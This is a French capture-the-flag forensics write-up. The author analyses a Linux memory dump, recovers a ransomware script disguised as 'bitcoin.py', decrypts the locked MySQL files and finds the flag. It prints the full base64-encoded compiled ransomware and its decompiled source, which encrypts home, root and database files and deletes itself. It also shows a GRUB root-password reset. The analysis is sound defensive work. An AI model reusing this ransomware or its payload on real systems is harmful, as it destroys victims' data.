


# Ministry of catapult

> Le ministère de la Catapulte fabrique les derniers composants modernes pour la marine, notamment des lanceurs de porte-avions.
>
> Une vente est en cours avec un client. Nous vendons notre dernière innovation appelée "nemo". Malheureusement un ransomware vient de chiffrer notre base de données.
>
> Aidez-nous à retrouver les informations du client pour continuer notre activité.

On nous fournit une image VMDK et un core ELF.

## Description

Le fichier VMDK est une VM qu'on peut lancer, tandis que le fichier ELF est une capture mémoire Linux.

```bash
$ file ministry-of-catapult.elf
ministry-of-catapult.elf: ELF 64-bit LSB core file, x86-64, version 1 (SYSV)
```

Pour lancer la VM avec VirtualBox, je suis [ce tutoriel](https://smallbusiness.chron.com/open-vmdk-virtualbox-28847.html):
- création d'une nouvelle machine virtuelle
- choisir le fichier VMDK comme disque dur.



La VM est une VM Linux avec la plupart des fichiers encryptés par un ransomware (les fichiers encryptés ont une nouvelle extension `.lock`).

Je vais donc analyser le fichier core. Pour ce faire, j'utilise volatility et [ce tutoriel](https://wiki.yobi.be/index.php/RAM_analysis): il s'agit d'un plugin pour analyser les VBoxCoreDump.

## Création du profil volatility

J'ai accès à la VM donc je peux en théorie créer le profil.

En revanche, je ne peux pas installer les dépendances car je ne suis pas root.

Je décide donc d'abord de devenir root en suivant [ce tutoriel](https://www.maketecheasier.com/reset-root-password-linux/):
- dans Grub, appuyer sur échap pour arrêter le boot automatique, puis appuyer sur E;
- Trouver la ligne qui commence par `linux`, et remplacer `ro` par `rw init=/bin/sh`;
- Valider avec `Ctrl+X`, puis changer les mots de passe des comptes root et catapult avec `passwd`.
- Start the system with `exec /sbin/init`.



Maintenant qu'on a les droits d'accès root, on peut créer le profil comme d'habitude:

```bash
sudo apt install zip git build-essential dwarfdump
wget https://gist.githubusercontent.com/andreafortuna/98af14f1fa5de2a9e1ce93afbfe24200/raw/8e6e710ec23270f2564e1dd70e8fdfcec1bd1706/volprofile.sh -O volprofile.sh
chmod +x volprofile.sh
./volprofile.sh
```

Puis j'extrais l'archive dans le dossier `volatility/volatility/plugins/overlays/linux/`.

## Analyse du dump mémoire

Le première chose que j'effectue est d'analyser les programmes en train de tourner:

```
$ volatility --plugins=profile --plugins=vboxelf -f ministry-of-catapult.elf --profile=LinuxDebian_5_10_57-antix_1-amd64-smp_profilex64 linux_psaux

...
1886   0      0      /bin/sh /usr/bin/mysqld_safe
1999   109    116    /usr/sbin/mariadbd --basedir=/usr --datadir=/var/lib/mysql --plugin-dir=/usr/lib/mysql/plugin --user=mysql --skip-log-error --pid-file=/run/mysqld/mysqld.pid --socket=/run/mysqld/mysqld.sock
4512   0      0      bash
4521   0      0      /usr/bin/python3 bitcoin.py
```

On nous parle de base de données donc je vois une instance mysql (mariadb) qui tourne, ainsi qu'un script louche: `bitcoin.py`.

Je cherche donc à le récupérer, d'abord en trouvant son emplacement grâce à `--plugins=volatility/plugins/linux/getcwd.py linux_getcwd`.
Cependant, le fichier n'a pas l'air présent dans la capture mémoire...

J'essaie donc de trouver des occurences:

```bash
$ strings | grep bitcoin.py
...
chmod 777 bitcoin.py && "$pp" bitcoin.py
...
BgAAAHIHAAAAcggAAAByCQAAAHIKAAAA2gVxdWV1ZXILAAAA2gNzeXNyDAAAANoJdGhyZWFkaW5ncg0AAADaCnN1YnByb2Nlc3NyMAAAAFoRQ3J5cHRvZG9tZS5DaXBoZXJyDgAAAHIPAAAAciMAAAByLQAAAHJAAAAAcjMAAADaBGJvb2xyPQAAAHJHAAAAcjkAAAByVAAAAHIgAAAAWgRyY3ZlWgNzZWXaAmZm2gRldmFs2gdjb21waWxl2gliNjRkZWNvZGXaAm1tWgJ2Y3JLAAAA2gVieXRlc3IpAAAA2glnZXRidWZmZXLaB3RvYnl0ZXPaBmRlY29kZVoCdmtaBXNlbmRmchMAAADaAXBaBHJlY3baBXNwbGl0cjoAAAByGgAAANoEcG9vbNoFcGF0aHPaAXJyRgAAANoBZtoEZmlsZXIoAAAAcioAAADaBXNsZWVwchUAAAByFQAAAHIVAAAAchYAAADaCDxtb2R1bGU+AgAAAHNgAAAACAEIAQgBDAEMARABHAEMAQwBDAEIAgwDEBEODAgEDggOCggIChEOBwoBCgEEARYBBgEIAxQBEgEUAR4CCAIMAgYBCAgIARIBCAEYASIBCAIIAggGCAESAQgBGAEiAg4B" | base64 --decode >> bitcoin.py
```

La dernière ligne est intéressante : le fichier `bitcoin.py` a été créé à partir de base64. La ligne n'est cependant pas complète, je cherche donc des bouts de la chaîne base64 avec grep.

J'arrive ainsi à recomposer l'instruction complète :

```bash
echo "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aS5wb3N0aW1nLmNjLzJDbTAyV3pNL2JhY2tncm91bmQucG5nei0vaG9tZS91c2VyL1BpY3R1cmVzL3dhbGxwYXBlcnMvcmFuc29td2FyZS5wbmd6PGdzZXR0aW5ncyBzZXQgb3JnLmdub21lLmRlc2t0b3AuYmFja2dyb3VuZCBwaWN0dXJlLXVyaSBmaWxlOikE2gZ1cmxsaWLaB3JlcXVlc3TaC3VybHJldHJpZXZlcgoAAAApAloIaW1hZ2VVcmxyCQAAAHIVAAAAchUAAAByFgAAANoKYmFja2dyb3VuZF0AAABzCAAAAAABBAEEAQ4BclQAAADaCF9fbWFpbl9fc1wAAABaR1ZtSUhObGJtUm1LSE5sYm1SZlpXNWtMQ0J0YzJjcE9nb2dJQ0FnYzJWdVpGOWxibVF1YzJWdVpDaHRjMmNwQ2lBZ0lDQnpaVzVrWDJWdVpDNWpiRzl6WlNncHoIPHN0cmluZz7aBGV4ZWMpIHMEAAAAMHg0NHMEAAAAMHg3NnMEAAAAMHg3M3MEAAAAMHg2OXMEAAAAMHgzNfMEAAAAMHgzMnMEAAAAMHg0NvMEAAAAMHg0ZvMEAAAAMHg0MHMEAAAAMHgzNnMEAAAAMHgyMXMEAAAAMHg3NHMEAAAAMHgyYfMEAAAAMHgzMXMEAAAAMHg3MHMEAAAAMHg2YXMEAAAAMHgzN3MEAAAAMHgyNnMEAAAAMHg2ZXMEAAAAMHg0YvMEAAAAMHg2M3JXAAAAclkAAABzBAAAADB4NjRyWwAAAHJaAAAAclgAAABzBAAAADB4NzFyWgAAAHMEAAAAMHg1NXMEAAAAMHg3MnMEAAAAMHg0ZHI+AAAAegV1dGYtOCkC2gZ0YXJnZXRyHAAAANoAYwEAAAAAAAAAAAAAAAIAAAAHAAAAQwAAAHMmAAAAZwB8AF0efQF8AXIEdAB0AWQAdAJ8AYMBFwBkAYMCgwGRAnEEUwApAtoCMHjpEAAAACkDck0AAAByKwAAAHJAAAAAKQLaAi4w2gFuchUAAAByFQAAAHIWAAAA2go8bGlzdGNvbXA+bwAAAHI+AAAAcmIAAAByXgAAAHoTUmFuc29td2FyZSBzdGFydGluZykG+govZXRjL215c3Fs+gsvcnVuL215c3FsZPoOL3Zhci9saWIvbXlzcWx6BS9ob21legUvcm9vdHoEL3J1bnI2AAAAehVSYW5zb213YXJlIEZpcnN0IHN0ZXApA3JjAAAAcmQAAAByZQAAAOk8AAAAKQFySAAAAClF2gZiYXNlNjTaBHRpbWXaDnVybGxpYi5yZXF1ZXN0clEAAADaB2hhc2hsaWJyAgAAANoCaW9yAwAAANoPbXVsdGlwcm9jZXNzaW5ncgQAAAByBQAAANoCb3NyBgAAAHIHAAAAcggAAAByCQAAAHIKAAAA2gVxdWV1ZXILAAAA2gNzeXNyDAAAANoJdGhyZWFkaW5ncg0AAADaCnN1YnByb2Nlc3NyMAAAAFoRQ3J5cHRvZG9tZS5DaXBoZXJyDgAAAHIPAAAAciMAAAByLQAAAHJAAAAAcjMAAADaBGJvb2xyPQAAAHJHAAAAcjkAAAByVAAAAHIgAAAAWgRyY3ZlWgNzZWXaAmZm2gRldmFs2gdjb21waWxl2gliNjRkZWNvZGXaAm1tWgJ2Y3JLAAAA2gVieXRlc3IpAAAA2glnZXRidWZmZXLaB3RvYnl0ZXPaBmRlY29kZVoCdmtaBXNlbmRmchMAAADaAXBaBHJlY3baBXNwbGl0cjoAAAByGgAAANoEcG9vbNoFcGF0aHPaAXJyRgAAANoBZtoEZmlsZXIoAAAAcioAAADaBXNsZWVwchUAAAByFQAAAHIVAAAAchYAAADaCDxtb2R1bGU+AgAAAHNgAAAACAEIAQgBDAEMARABHAEMAQwBDAEIAgwDEBEODAgEDggOCggIChEOBwoBCgEEARYBBgEIAxQBEgEUAR4CCAIMAgYBCAgIARIBCAEYASIBCAIIAggGCAESAQgBGAEiAg4B" | base64 --decode >> bitcoin.py
```

## bitcoin.py

Le fichier est un fichier Python compilé (`.pyc`).

Je le décompile avec [pycdc](https://github.com/zrax/pycdc), ce qui me donne le code suivant :

```python
# Source Generated with Decompyle++
# File: bitcoin.pyc (Python 3.9)

import base64
import time
import urllib.request as urllib
from hashlib import md5
from io import BytesIO
from multiprocessing import Process, Pipe
from os import urandom, walk, remove, path, system
from queue import Queue
from sys import argv
from threading import Thread
import subprocess as sp
from Cryptodome.Cipher import AES

class Worker(Thread):
    
    def __init__(self, tasks):
        Thread.__init__(self)
        self.tasks = tasks
        self.daemon = True
        self.start()

    
    def run(self):
        (func, args, kargs) = self.tasks.get()
    # WARNING: Decompyle incomplete


class ThreadPool:
    
    def __init__(self = None, _ThreadPool__max_queue_number = None):
        self.tasks = Queue(_ThreadPool__max_queue_number)
        for _ in range(_ThreadPool__max_queue_number):
            Worker(self.tasks)

    
    def add_task(self, func, *args, **kargs):
        self.tasks.put((func, args, kargs))

    
    def wait_completion(self):
        self.tasks.join()


def set_ThreadPool():
    __max_queue_number = 150
    return ThreadPool(__max_queue_number)


def shred(filepath = None):
    pass
# WARNING: Decompyle incomplete


def ransomware(filepath = None, key = None):
    pass
# WARNING: Decompyle incomplete


def derive_key_and_iv(password, salt, key_length, iv_length):
    d = d_i = b''
    if len(d) < key_length + iv_length:
        d_i = md5(d_i + str.encode(password) + salt).digest()
        d += d_i
        continue
    return (d[:key_length], d[key_length:key_length + iv_length])


def encrypt(in_file, out_file, password, key_length = (32,)):
    bs = AES.block_size
    salt = urandom(bs)
    (key, iv) = derive_key_and_iv(password, salt, key_length, bs)
    cipher = AES.new(key, AES.MODE_CBC, iv)
    out_file.write(salt)
    finished = False
    if not finished:
        chunk = in_file.read(1024 * bs)
        if len(chunk) == 0 or len(chunk) % bs != 0:
            if not bs - len(chunk) % bs:
                pass
            padding_length = bs
            chunk += str.encode(padding_length * chr(padding_length))
            finished = True
        out_file.write(cipher.encrypt(chunk))
        continue


def background():
    imageUrl = 'https://i.postimg.cc/2Cm02WzM/background.png'
    path = '/home/user/Pictures/wallpapers/ransomware.png'
    urllib.request.urlretrieve(imageUrl, path)
    system('gsettings set org.gnome.desktop.background picture-uri file:' + path)

if __name__ == '__main__':
    (rcve, see) = Pipe()
    ff = b'ZGVmIHNlbmRmKHNlbmRfZW5kLCBtc2cpOgogICAgc2VuZF9lbmQuc2VuZChtc2cpCiAgICBzZW5kX2VuZC5jbG9zZSgp'
    eval(compile(base64.b64decode(ff), '<string>', 'exec'))
    mm = BytesIO()
    vc = [
        b'0x44',
        b'0x76',
        b'0x73',
        b'0x69',
        b'0x35',
        b'0x32',
        b'0x46',
        b'0x4f',
        b'0x40',
        b'0x36',
        b'0x21',
        b'0x74',
        b'0x2a',
        b'0x31',
        b'0x70',
        b'0x6a',
        b'0x37',
        b'0x26',
        b'0x6e',
        b'0x4b',
        b'0x63',
        b'0x32',
        b'0x40',
        b'0x64',
        b'0x63',
        b'0x31',
        b'0x4f',
        b'0x71',
        b'0x31',
        b'0x55',
        b'0x72',
        b'0x4d']
    mm.write(bytes(b''.join(vc)))
    vk = mm.getbuffer().tobytes().decode('utf-8')
    p = Process(sendf, (see, vk), **('target', 'args')).start()
    key = ''.join((lambda .0: [ chr(int('0x' + str(n), 16)) for n in .0 if n ])(rcve.recv().split('0x')))
    print('Ransomware starting')
    remove(argv[0])
    pool = set_ThreadPool()
    paths = [
        '/etc/mysql',
        '/run/mysqld',
        '/var/lib/mysql',
        '/home',
        '/root',
        '/run']
    for p in paths:
        for r, d, f in walk(p):
            for file in f:
                if not '.lock' not in file:
                    if argv[0] != file:
                        pool.add_task(ransomware, path.join(r, file), key)
                        continue
                        continue
                        continue
                        pool.wait_completion()
                        print('Ransomware First step')
                        paths = [
                            '/etc/mysql',
                            '/run/mysqld',
                            '/var/lib/mysql']
                        for p in paths:
                            for r, d, f in walk(p):
                                for file in f:
                                    if not '.lock' not in file:
                                        if argv[0] != file:
                                            pool.add_task(ransomware, path.join(r, file), key)
                                            continue
                                            continue
                                            continue
                                            time.sleep(60)
                                            continue
                                            pool.wait_completion()
                                            return None
```

La fonction pour encrypter est complète, je peux donc créer une fonction pour décrypter :

```python
from Crypto.Cipher import AES
from Crypto.Util.Padding import unpad
from hashlib import md5

vc = [0x44, 0x76, 0x73, 0x69, 0x35, 0x32, 0x46, 0x4f, 0x40, 0x36, 0x21, 0x74, 0x2a, 0x31, 0x70, 0x6a, 0x37, 0x26, 0x6e, 0x4b, 0x63, 0x32, 0x40, 0x64, 0x63, 0x31, 0x4f, 0x71, 0x31, 0x55, 0x72, 0x4d]
password = bytes(vc)

def derive_key_and_iv(password, salt, key_length, iv_length):
    d = b''
    d_i = b''
    while len(d) < key_length + iv_length:
        d_i = md5(d_i + password + salt).digest()
        d += d_i
    return (d[:key_length], d[key_length:key_length + iv_length])

def decrypt(filename):
    with open(filename, "rb") as f:
        encrypted_data = f.read()
    bs = AES.block_size
    salt = encrypted_data[:bs]
    encrypted_data = encrypted_data[bs:]
    (key, iv) = derive_key_and_iv(password, salt, len(password), bs)
    cipher = AES.new(key, AES.MODE_CBC, iv)
    decrypted = unpad(cipher.decrypt(encrypted_data), bs)
    with open(filename.replace(".lock", ""), "wb") as f:
        f.write(decrypted)
```

Je l'utilise pour extraire les fichiers situés dans `/etc/mysql`, `/var/lib/mysql` et `/root`.

## Trouver le flag

Après de nombreuses recherches et tentatives pour importer les bases SQL, je finis par faire un `string` sur `/var/lib/mysql/ib_logfile0`.

Cela semble être la base de données utilisateur avec plein de chaines de caractères en base64, je décode toutes ces chaînes jusqu'à trouver le flag:

```python
from base64 import b64decode

with open("ib_logfile0.txt", "r") as f:
    for l in f:
        l = "aaaa" + l.strip()
        for j in range(len(l)):
            data = l[j:]
            padded = data + "="*(4-len(data)%4)
            try:
                if b"DGH" in b64decode(padded):
                    print(l)
                    break
            except:
                pass
```

Flag : `DGHACK{17_15_7H3_N3W_53Cr37_W34P0N}`.